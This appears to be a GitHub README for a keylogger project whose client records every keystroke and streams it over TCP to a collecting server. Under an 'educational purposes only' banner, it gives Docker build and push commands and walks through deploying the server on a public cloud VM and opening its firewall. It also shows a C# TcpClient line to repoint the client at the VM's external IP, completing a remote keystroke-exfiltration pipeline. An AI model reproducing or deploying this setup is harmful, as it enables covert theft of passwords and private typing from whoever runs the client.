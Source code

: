 > [!WARNING]
> For educational purposes only!

---

# Key Logger

This project includes a key logger client which logs all key strokes and a TCP server which accepts the incoming key stroke stream and writes it to a file.

---

# Setup

Here’s how to run the TCP server **locally** or inside a **Docker container** and deploy it to a cloud VM.

---

## Build and Test the Docker Image Locally

1. **Build the Server Project**:

   - Open a terminal in the server project directory and build the project:
     ```bash
     dotnet build
     ```

2. **Build the Docker Image**:

   - Create a Docker image:
     ```bash
     docker build -t keylogger-server .
     ```

3. **Run the Docker Container**:

   - Run the container and map the port `5000` from the container to `5001` on the the local machine:
     ```bash
     docker run -p 5001:5000 keylogger-server
     ```

4. **Test Locally**:
   - The server should now be running at `127.0.0.1:5001`.
   - Run the **keylogger client** and confirm it can connect to the server.

---

## Deploy to a Cloud VM

To deploy the server to a cloud-hosted VM:

1. **Provision a VM**:

   - Create a virtual machine using a cloud provider (AWS EC2, Azure VM, GCP Compute Engine).
   - Choose a VM image with **Docker installed** (e.g., Ubuntu with Docker pre-installed).

2. **Transfer the Docker Image**:

   - Log in to Docker Hub:
     ```bash
     docker login
     ```
   - Tag your image:
     ```bash
     docker tag keylogger-server <your-dockerhub-username>/keylogger-server:latest
     ```
   - Push the image:
     ```bash
     docker push <your-dockerhub-username>/keylogger-server:latest
     ```
   - On the VM, pull the image:
     ```bash
     docker pull <your-dockerhub-username>/keylogger-server:latest
     ```

3. **Run the Server Container on the VM**:

   - Start the server container and map port `5000`:
     ```bash
     docker run -p 5000:5000 keylogger-server
     ```

4. **Open the VM’s Firewall**:

   - Allow inbound traffic on **port 5000** in the cloud provider’s firewall settings so the client can connect.

5. **Find the External IP**:
   - Check the external (public) IP address of your VM.

---

## Update the Keylogger Client to Use the External IP

In the **keylogger client** project, replace `127.0.0.1` with the VM's external IP address:

```csharp
using TcpClient client = new TcpClient("123.456.78.90", 5000); // Replace with your VM's external IP
```

---

## Test the Entire Setup

1. Ensure the TCP server container is running on the cloud VM.
2. Run the keylogger client on your **local machine**.
3. Confirm the client connects to the server and sends the key data.
4. Check the server’s output (or the log file) on the VM.

